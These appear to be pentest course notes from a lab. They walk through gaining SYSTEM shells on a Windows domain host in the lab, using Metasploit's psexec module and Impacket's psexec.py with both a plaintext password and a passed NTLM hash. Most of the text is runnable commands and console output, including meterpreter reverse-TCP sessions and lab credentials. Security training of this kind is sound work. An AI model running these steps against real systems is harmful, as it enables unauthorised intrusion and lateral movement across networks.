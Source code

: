 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

```shell
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > unset smbdomain
Unsetting smbdomain...
[!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
```

Now we need our hash, Note that the **NT** part of this hash is the most important, but we need to select both the **LM** and **NT** part for this attack

![](https://i.imgur.com/c8XeAIx.png)

```shell
msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445 as user 'administrator'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 3 opened (192.168.0.157:4444 -> 192.168.0.166:54623) at 2023-09-16 17:47:14 -0400

meterpreter > 
```

2. Psexec.py

We can get shell on target system, using this syntax :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:'Password1'@192.168.0.166

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file fsodQFwB.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service fqSt on 192.168.0.166.....
[*] Starting service fqSt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We can use the `exit` command to close this section

Sometimes we might not be able to pass our password as a string directly, we can just remove the password from our command and things would be fine

